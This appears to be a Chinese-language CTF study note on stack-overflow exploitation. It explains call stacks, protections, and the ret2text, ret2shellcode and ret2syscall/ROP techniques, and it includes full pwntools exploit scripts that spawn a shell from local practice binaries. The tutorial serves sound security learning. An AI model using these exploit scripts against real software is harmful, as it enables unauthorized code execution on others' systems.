# Pwn 栈溢出基础

本笔记使用的系统环境:

Windows 10、Kali Linux 2025.1c

`更新时间:2025-09-15`

### C语言函数调用栈

函数调用栈位于虚拟内存空间的用户区域中的最高位, 即`kernel`段下面

> 

函数调用栈是指程序运行时内存一段连续的区域，用来保存函数运行时的状态信息，包括函数参数与局部变量等。

称为栈是因为发生函数调用时，调用函数`caller`的状态被保存在栈内，被调用函数`callee`的状态被压入调用栈的栈顶。

在函数调用结束时，栈顶的函数`callee`状态被弹出，栈顶恢复到调用函数`caller`的状态。

函数调用栈在内存中从高地址向低地址生长，所以栈顶对应的内存地址在压栈时变小，退栈时变大

> 

#### 栈帧结构

栈帧是指在程序执行过程中，每当调用一个函数时在调用栈上创建的一个数据结构。每个栈帧包含了函数调用所需的所有信息

下图中，`EBP`到`ESP`之间为子函数栈帧

> 

- `previous stack frame pointer`: 爷函数栈帧的栈底指针

- `arguments`: 参数

- `return address`: 返回地址，当函数完成执行后，程序应该继续执行的指令地址，即父函数的下一条指令地址

- `stack frame pointer`: 父函数栈帧的栈底指针

- `callee saved registers`: 子函数临时存储空间

- `local variables`: 子函数局部变量

**64位程序优先使用寄存器传参**

#### 函数调用栈的工作过程

函数的状态主要涉及三个寄存器，`ESP`、`EBP`和`EIP`。`ESP`用来存储函数调用栈的栈顶地址，在压栈和退栈时发生变化；

`EBP`用来存储函数调用栈的栈底地址，即基地址，在函数运行时不变，可以用来索引确定函数参数或局部变量的位置；

`EIP`用来存储即将执行的程序指令的地址，CPU通过`EIP`存储的内容读取指令并执行，`EIP`随之指向相邻的下一个指令，如此反复，程序就可以连续执行指令

- 将被调函数的参数按照逆序依次压入栈

> 

- 将被调函数的返回地址压入栈

> 

- 将调用函数的栈帧栈底地址压入栈，并将EBP更新为当前栈顶地址

> 

请注意, 此处压入栈的`Caller's EBP`并非`EBP`本身, 而是`Caller`函数栈帧的栈底地址值

- 将被调用函数局部变量压入栈

> 

在压栈的过程中，`ESP`寄存器的值不断缩小（对应栈从内存高地址向低地址生长）

压入栈内的数据包括调用参数、返回地址、调用函数的基地址，以及局部变量。

其中调用参数以外的数据共同构成了被调函数的状态，即栈帧。

在发生函数调用时，程序还会将被调函数的指令地址存储到`EIP`寄存器中，这样程序就可以依次执行被调用函数的指令

在栈调用结束后，变化的核心就是丢弃被调用函数的状态，并将栈顶恢复为调用函数的状态

- 将调用函数的基地址弹出栈外，并储存到EBP寄存器中

> 

即执行`POP EBP`

- 将被调用函数的返回地址弹出栈，并使用EIP寄存器储存

> 

#### 演示

我们使用一个简单程序演示一下C语言函数调用栈的工作过程

```c
int callee(int a, int b, int c) {	// 被调函数
    return a + b + c;
}

int caller(void) {	// 主调函数
    int ret;
    ret = callee(1, 2, 3);
    ret += 4;
    return ret;
}
```

将其编译为汇编代码(x86)

```assembly
caller:
    push    ebp                 ; 保存调用者的 ebp
    mov     ebp, esp            ; 建立当前栈帧
    sub     esp, 16             ; 分配局部变量空间（ret 会存在 [ebp-4]）
    
    ; 准备调用 callee(1, 2, 3)
    push    3                   ; 第3个参数 c 入栈（最右参数先压）
    push    2                   ; 第2个参数 b 入栈
    push    1                   ; 第1个参数 a 入栈（最左参数最后压）
    call    callee              ; 调用 callee，返回地址自动压栈
    add     esp, 12             ; 清理栈：调用者负责弹出 3 个参数（每个4字节）
    
    mov     DWORD PTR [ebp-4], eax   ; 保存返回值到局部变量 ret
    add     DWORD PTR [ebp-4], 4     ; ret += 4
    mov     eax, DWORD PTR [ebp-4]   ; 将 ret 放入 eax 作为返回值
    
    mov     esp, ebp            ; 恢复栈指针（leave 指令的前半部分）
    pop     ebp                 ; 恢复调用者的 ebp（leave 的后半部分）
    ret                         ; 返回
	
callee:
    push    ebp                 ; 保存调用者的 ebp（建立栈帧第一步）
    mov     ebp, esp            ; ebp 指向当前栈帧基址
    sub     esp, 16             ; 分配局部空间（-O0 习惯性分配，即使没用）
    
    mov     eax, DWORD PTR [ebp+8]   ; 第1个参数 a（位于 ebp+8）
    add     eax, DWORD PTR [ebp+12]  ; 加上第2个参数 b（ebp+12）
    add     eax, DWORD PTR [ebp+16]  ; 加上第3个参数 c（ebp+16）
    
    ; 结果已在 eax 中，作为返回值
    mov     esp, ebp            ; 恢复栈指针（可选，因为下面 pop ebp 会恢复）
    pop     ebp                 ; 恢复调用者的 ebp
    ret                         ; 返回到 caller
```

- Caller

1.`push ebp`: 压入主调函数(Caller函数的主调函数)的函数状态(EBP)

> 

2.`mov ebp, esp`: 将`EBP`移动到`ESP`的位置

> 

3.`sub esp, 16`: 开辟内存空间, 大小为16字节

为什么是`sub`(减), 因为栈从高地址往低地址增长

为什么是`16`, 一个`int`型数据占4字节, 变量`ret`+ 3个参数 = 4 + 4 + 4 + 4 = 16

> 

4.`push 3`, `push 2`, `push 1`: 将被调函数的参数按**逆序**压入栈

> 

5.`call callee`: 调用被调函数, 将返回地址压入栈, 并将`EIP`指向被调函数

此处的返回地址指的是被调函数结束后返回主调函数的地址, 可以理解为被调函数的调用处

`call`等价于`push eip`, `jmp <addr>`

> 

**现在程序流程进入被调函数**

- Callee

6.`push ebp`, `mov ebp, esp`: 与主调函数中相同的操作, 创建栈帧, 压入主调函数的`EBP`

> 

7.`sub esp, 16`: 开辟局部变量内存空间(这里不需要过多关注)

8.`mov eax, DWORD PTR [ebp+8]`: 将第一个参数存入`EAX`寄存器中

为什么是第一个参数? `EBP`现在指向栈顶, 其高地址(上方)分别为`主调函数的EBP`(4字节)和`返回地址`(4字节), 随后便是被调函数的参数

`ebp+8`表示的就是第一个参数的位置

9.`add eax, DWORD PTR [ebp+12]`: `EAX`加上第二个参数

10.`add eax, DWORD PTR [ebp+16]`: `EAX`加上第三个参数

自此, 计算已经完成, 计算结构储存在寄存器`EAX`中

11.`mov esp, ebp`: 将`ESP`移动到`EBP`的位置

12.`pop ebp`: 将栈顶的值弹入`EBP`中, 此时的栈顶是`Caller's ebp`, 所以就恢复了主调函数的栈指针

> 

13.`ret`: 返回主调函数, 等效于`pop EIP`

此时`EIP`已经回到了主调函数, 即指向的是`Caller`中的`add esp, 12`

> 

14.`add esp, 12`: 将`ESP`增加抬高12字节, 释放被调函数的参数占用的内存空间

> 

15.`mov DWORD PTR [ebp-4], eax`: 将`EAX`的值存入`ebp-4`的位置, 即变量`ret`的位置

> 

16.`add DWORD PTR [ebp-4], 4`: 变量`ret`+ 4, 即`ret += 4`

> 

17.`mov eax, DWORD PTR[ebp-4]`: 将变量`ret`的值存入寄存器`EAX`中

18.`mov esp, ebp`, `pop ebp`: 等价于`leave`, 恢复父函数栈帧

`mov esp, ebp`

> 

`pop ebp`

> 

`ret`: 返回主调函数

> 

### 缓冲区溢出

根据上文可知，当函数正在执行内部指令的过程中我们无法拿到程序的控制权，只有发生函数调用或者结束函数调用的时候，程序的控制权会在函数状态之间发生跳转，这时才可以通过修改函数状态来实现攻击。而控制程序执行指令最关键的寄存器就是`EIP`，所以我们的目标就是让`EIP`载入攻击指令的地址

如果要让`EIP`指向攻击指令，首先，在退栈过程中，返回地址会被传给`EIP`，所以我们只需要让溢出数据用攻击指令的地址来覆盖返回地址就行了。其次，我们可以在溢出数据内包含一段攻击指令，也可以在内存其他位置寻找可用的攻击指令

缓冲区溢出的本质是向定长的缓冲区写入了超长的数据, 导致超出的数据覆写了合法内存区域

- 栈溢出(Stack overflow)
	- 最常见、漏洞比例最高、危害最大的二进制漏洞
	- 在CTF PWN题型中往往是漏洞利用的基础
- 堆溢出(Heap overflow)
	- 现实中漏洞占比不高
	- 堆管理器复杂, 利用花样繁多
	- CTF PWN常见题型
- BSS溢出(BSS overflow)
	- 现实中与CTF中都不常见
	- 攻击效果依赖于BSS中存放了何种控制数据

#### 演示

```c
int overflow() {
	char buf[8];
	read(0, buf, 24);
}
```

程序定义了一个8字节字符串, 但是read函数指定的最大长度超过了字符串长度

函数栈帧结构

> 

如果输入`AAAABBBBCCCCDDDD`就会造成溢出

> 

#### 常用工具

- IDA Pro

反编译软件，可以将机器码反编译为汇编代码，同时可以将汇编代码转换为C语言代码

简单的逆向工程是pwn的基础，只有先通过代码分析查找程序可能存在的漏洞，才能进行后续步骤

- pwntools

基于python的pwn攻击脚本库

常用方法

| 方法名             | 参数类型 | 返回值类型 | 方法意义                                         |
| ------------------ | -------- | ---------- | ------------------------------------------------ |
| process            | str      | object     | 连接本地的程序，并挂载到本地端口，返回程序控制流 |
| remote             | str      | object     | 连接到远程端口，返回程序控制流                   |
| Object.recv        | None     | bytes      | 接收程序发送的信息                               |
| Object.recvline    | None     | bytes      | 接收一条程序发送的信息                           |
| Object.send        | byte     | None       | 发送字节流到程序                                 |
| Object.sendline    | byte     | None       | 发送一条字节流到程序                             |
| Object.interactive | None     | None       | 切换到交互模式，即getshell                       |
| p32                | int      | bytes      | 将整型转换为32位byte                             |
| p64                | int      | bytes      | 将整型转换为64位byte                             |

- pwndbg

动态调试工具

常用指令

| 指令       | 参数                | 意义                       |
| ---------- | ------------------- | -------------------------- |
| run / r    | N/A                 | 运行程序                   |
| break / b  | *address / function | 在指定地址或函数处断点     |
| next / n   | N/A                 | 步过当前语句               |
| stepin / s | N/A                 | 步进当前语句               |
| stack      | length              | 查看当前栈中指定长度的内容 |

- checksec

检查程序启用的保护措施

`NX` `the no-execute bits`

栈不可执行，编译时生效，通过在内存页的标识中添加“执行”位，可以表示该内存页是否可以执行，若程序代码的`EIP`执行至不可运行的内存页，则cpu将直接拒绝执行“指令”，造成程序崩溃

`ASLR` `address space layout randomization`

地址空间布局随机化，通过随机化程序和库的内存地址，ASLR 增加了攻击者猜测或预测内存位置的难度，从而防止了一些常见的攻击方式。ASLR 的核心原理是当程序或库加载到内存中时，其地址空间不会是固定的，而是会随机变化。这意味着每次程序启动时，它的代码段、堆、栈等内存区域的地址都不同，从而大大提高了攻击者利用内存漏洞进行攻击的难度

`PIE` `position-independent executable`

地址无关可执行文件，该技术是一个针对代码段.text、数据段`.data`、未初始化全局变量段`.bss`等固定地址的一个防护技术，如果程序开启了PIE保护的话，在每次加载程序时都变换加载地址

`Canary`

`Canary`栈溢出保护是一种常见的安全机制，用于防止栈溢出攻击。其核心思想是在栈的关键位置插入一个随机值`canary`，并在函数返回前检查该值是否被篡改

checksec还会提供一些信息

`Arch`: 架构, 

程序架构, 

- ROPgadget

#### ret2text

题目文件`files/ret2text1`

1. 使用checksec检查文件安全性

> 

可以看到, 该文件没有`Canary`, 可以栈溢出

2. 使用IDA Pro静态分析

> 

`buf`只有32字节, `read()`函数却能写入256字节(0x100), 因此存在栈溢出漏洞

3. 寻找后门

> 

在函数`backdoor()`中可以直接getshell

4. 使用gdb动态调试

> 

`b main`

5. 在`main()`处断点, 步过到`read()`函数

> 

6. 输入合法内容, 然后查看当前栈

输入`aaaabbbbccccdddd`

> 

可以看到, 其中`rbp+8`的位置, 即`0x7fffffffdcc8`就是函数的返回地址, 需要注意, gdb展示的内存空间布局是低地址在上, 高地址在下, 跟栈是相反的

> 

`0x7fffffffdcc8`就是我们需要覆盖的返回地址, 只需要在此处填充`backdoor()`函数的地址, 就可以控制程序流程执行`backdoor()`函数并getshell

注意, 局部变量不一定紧邻`rbp`, 这里只是展示大致布局, 实际的内容并不重要

7. 编写exploit

> 

从IDA得知`backdoor()`函数地址为`0x00000000004011FB`

`buf`距离`rbp`32字节, `rbp`本身占8字节, 总共40字节, 再拼接需要返回的函数地址`0x00000000004011FB`

```python
from pwn import *

context.arch = "amd64"	# 64位程序

# 连接本地程序
sh = process("./ret2text1")
# sh = romate()

backdoor = 0x00000000004011FB	# 后门函数地址

payload = flat([cyclic(0x28), backdoor])	# 32字节buf + 8字节rbp + backdoor

sh.recv()
sh.sendline(payload)
sh.interactive()
```

注意, 32位软件`ebp`长度为4字节

10. 执行脚本, 成功getshell

> 

#### ret2shellcode

在`ret2text`中, 我们使用的`shell`是程序预留好的, 但是实际的比赛中基本不可能为我们预留这样一条危险代码

因此, 我们需要自己向程序中输入`shellcode`

具体步骤是将栈帧上的函数返回地址更改为攻击者手动传入的shellcode所在的缓冲区地址，初期往往直接将shellcode写入栈缓冲区，但是目前由于NX(栈不可执行)保护措施，栈缓冲区不可执行，因此当下常用的手段变为向bss缓冲区或者堆缓冲区内写入shellcode，并使用mprotect赋予其执行权限

先让我们回想一下`.bss`段在哪?

`.bss`段在数据段`Data Segment`, 是存放未初始化的全局变量和静态变量的静态内存区域

> 

##### shellcode

`shellcode`就是传入程序内部用于`getshell`的恶意代码, 因为是CPU直接执行, 只能是机器码

除非你是大神, 否则一般人只能借助工具来编写`shellcode`

##### pwntools中的shellcode

`pwntools`自带一个用于生成`shellcode`的工具包`shellcraft`

*在攻击64位程序时, 需要加上一条`context.arch = 'amd64'`指定脚本环境*

|方法名             |参数类型|返回值类型 |方法意义                 |
|-------------------|-------|----------|------------------------|
|shellcraft.sh      |None   |str       |生成一段汇编shellcode    |
|shellcraft.amd64.sh|None   |str       |生成一段64位汇编shellcode|

`shellcraft`生成的`shellcode`是汇编代码, 并不能直接使用, 需要使用`asm()`函数将其转换为机器码

##### 攻击流程

题目文件`files/ret2shellcode1`

1. 使用checksec查看文件安全性

> 

可以看到没有`canary`、`NX`、`PIE`, 并且栈可执行(一般不可能有这么好的题目)

使用gdb动态调试也可以确认栈可执行

> 

2. 使用IDA静态分析

> 

在`main`函数中直接打印了缓冲区`v4`的地址, 并使用`gets`函数接受用户输入, 此处存在栈溢出漏洞

3. 使用gdb动态调试

> 

确认缓冲区长度为`0x60`

4. 攥写exploit

先接收打印的缓冲区地址

```python
sh.recvuntil('advance ')
v4 = int(sh.recvline(14), 16)
```

计算溢出长度

`length` = `shellcode` + `padding` + `rbp` + `addr`

缓冲区已经知道是`0x60`, `padding`长度就是`0x60` - `shellcode`长度

```python
padding = 0x60 - len(shellcode)
```

这里推荐使用`ljust`方法, 它能够自动填充垃圾数据到指定的长度
```python
length = len(shellcode.ljust(0x60, b'a'))
print(length)	# 输出结果为96
```

构造payload

```python
payload = flat([shellcode, cyclic(padding + 8), v4])
		# shellcode + padding + rbp + addr
```

完整的exp

```python
from pwn import *
from LibcSearcher import *

context.arch = 'amd64'

sh = process('./ret2shellcode1')
elf = ELF('./ret2shellcode1')

shellcode = asm(shellcraft.sh())

sh.recvuntil('advance ')
v4 = int(sh.recvline(14), 16)

padding = 0x60 - len(shellcode)

payload = flat([shellcode, cyclic(padding + 8), v4])

sh.sendline(payload)
sh.interactive()
```

#### ROP (Return Oriented Programming)返回导向编程

返回导向编程`ROP`是一种高级漏洞利用技术, 通过复用程序中已有的代码片段`gadget`来构造恶意逻辑, 从而绕过数据执行保护等安全措施

攻击者利用栈溢出等漏洞控制栈的内容, 将返回地址替换为`gadget`的地址, 并通过`ret`指令将这些`gadget`串联成链式调用, 最终实现攻击目标

##### 系统调用

系统调用是指系统给用户提供的编程接口，通常是访问操作系统所管理的底层硬件的接口，本质上是一些内核函数代码，以规范的方式驱动硬件。

`x86`通过`int 0x80`指令进行系统调用，`amd64`通过`syscall`指令进行系统调用

有C语言程序

```c
#include <stdio.h>
#include <unistd.h>

char str[0x100] = "Hello, World!";

my_puts() {
    write(1, &str, 0x100);
}

int main() {
    my_puts();
    return 0;
}
```

函数调用`my_puts() -> write() -> sys_write()`的过程:

- 程序中的代码：`my_puts("Hello, World!");`
- libc中的用户代码：`write(1, &"Hello, World!", 13);`
- Linux内核中的代码：`[eax = 4; ebx = 1; ecx = &"Hello, World!"; edx = 13; ] + int0x80; => sys_write()`

在实际操作中，我们需要执行系统调用`execve("/bin/sh", NULL, NULL)`，对应的汇编代码为

```assembly
mov eax, 0xb
mov ebx, ["/bin/sh"]
mov ecx, 0
mov edx, 0
int 0x80
```

以上代码在程序中并不连续存在，因为我们需要将分离的代码片段组合起来，达到执行系统调用的目的

这个过程便称为`ROP`，每个代码片段称为`gadget`

> 

上图中，最左侧是栈，中间是栈溢出后的栈，右侧是程序的代码段。

`ROP`指的就是用特意拼接的数据进行栈溢出，然后利用程序中已有的代码片段`gadget`进行重复执行，并跳转到下一条，最终达到控制程序的过程

#### ret2syscall

题目文件`files/rop`

1. 首先查看文件保护措施

> 

没有canary, 可以栈溢出, 但是开启了NX, 并且没有`x`权限的段, 排除`ret2shellcode`可能

2. IDA静态分析

静态链接程序, 但是缺少system函数

> 

查看字符串, 第一个就是`binsh`, 没有找到其他后门函数, 证实是`ret2syscall`

*该章节就是ret2syscall, 也不可能出其他题目*

回到`main`, 发现`gets`函数, 存在栈溢出漏洞

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf((void *)stdin, 0, 1, 0);
  puts("This time, no system() and NO SHELLCODE!!!");
  puts("What do you plan to do?");
  gets(&v4);
  return 0;
}
```

3. 拼凑`gadget`

我们需要拼凑的代码段是

```assembly
pop eax; ret
0xb
pop ebx; ret
binsh
pop ecx; ret
0
pop edx; ret
0
int 0x80
```

寻找`gadget`

```
ROPgadget --binary ./rop --only "pop|ret"
```

这里省略寻找过程

```
binsh = 
eax = 0x080bb196
edx_ecx_ebx = 0x0806eb90
int80 = 0x08049421
```

4. 计算溢出长度, 构造`payload`

> 

缓冲区长度为`0x88 - 0x1c = 0x6c`

`payload`结构:

`padding + ebp + eax + 0xb + ebx + binsh  + ecx + 0 + edx + 0 + int80`

5. 攥写exploit

完整exp

```pytohn
from pwn import *

sh = process('./rop')

binsh = 0x080BE408
eax = 0x080bb196
edx_ecx_ebx = 0x0806eb90
int80 = 0x08049421

payload = flat([cyclic(0x6c + 4), eax, 0xb, edx_ecx_ebx, 0, 0, binsh, int80])

sh.sendline(payload)
sh.interactive()
```

因为我使用了`pop edx ; pop ecx ; pop ebx ; ret`, 所以寄存器的值需要与其位置对应, 也可以使用单独的`gadget`

成功攻击

> 

#### 动态链接

假设有以下c语言程序

```c
#include<stdio.h>

int main() {
	char str[100];
	puts("Hello, World!");
	gets(str);
	return 0;
}
```

我们分别使用动态链接`dynamic`和静态链接`static`编译, 查看区别

动态链接

```
gcc -no-pie -o dynamic test.c -Wno-implicit-function-declaration
```

静态链接

```
gcc -no-pie --static -o static test.c -Wno-implicit-function-declarat
```


使用`file`指令查看两个文件



动态链接程序明确了链接类型为`dynamically`, 并且指明了装载器



静态链接程序明确了`statically`链接类型

比较文件大小



静态链接程序明显比动态链接程序大

通过`IDA`进行对比

动态链接



静态链接



静态链接程序比动态链接程序多了许多函数, 这是因为静态链接需要在程序编译时, 将程序需要的所有链接库的函数拷贝到程序内部, 当程序执行时，程序能直接从其内部调用必要的函数，而动态链接库则是在程序执行时，才将需要的函数拷贝进内存中，供程序调用

##### 动态链接过程

我们来了解一下函数动态链接的过程是怎样的

假设`libc`(动态链接库)中存在一个`foo`函数
```c
int main() {
	foo();
	return 0;
}
```

1. 编译

在程序编译为汇编代码后, 函数调用一般使用`call`指令, 因此汇编代码中存在一行代码为`call foo@plt`

2. `plt`表

在每一个程序中, 被调用的动态链接库都会在`plt`表中创建一个表项, 用于在函数调用时查询该函数的地址, 代码实现为`foo@plt`

3. `foo@plt`

这就是`foo`函数在`plt`表中表项, 其实际执行代码为

```assembly
jmp *(foo@GOT)
push index
jmp PLT0
```

- `jmp *(foo@GOT)` 跳转到`got`表, 尝试在`got`表中寻找函数真实地址, 如果是第一次调用, `got`表中并不存在该函数地址, 那么程序将返回到`plt`表
- `push index` 为`__dl_runtime_resolve`传参, 指定需要解析的函数
- `jmp PLT0` 跳转到plt头部，将要执行`__dl_runtime_resolve`来解析`foo`的真实地址

4. `PLT0`

在`PLT0`中程序会执行如下代码
```assembly
push *(GOT+4)
jmp *(GOT+8)
```

- `push *(GOT+4)` 为`__dl_runtime_resolve`传参，指定`foo`所在的动态链接库
- `jmp *(GOT+8)` 跳转到`__dl_runtime_resolve`所在位置

5. 解析函数真实地址

程序调用`__dl_runtime_resolve`函数中解析`foo`函数的真实地址，并将解析结果返回`.got.plt`(got表)中

6. 第二次调用

如果程序再次调用`foo`, 会先到`plt`表, 再到`got`表, 此时`got`表中已经存在函数真实地址, 所以不需要返回到`PLT0`, 而是直接跳转到`foo`函数执行

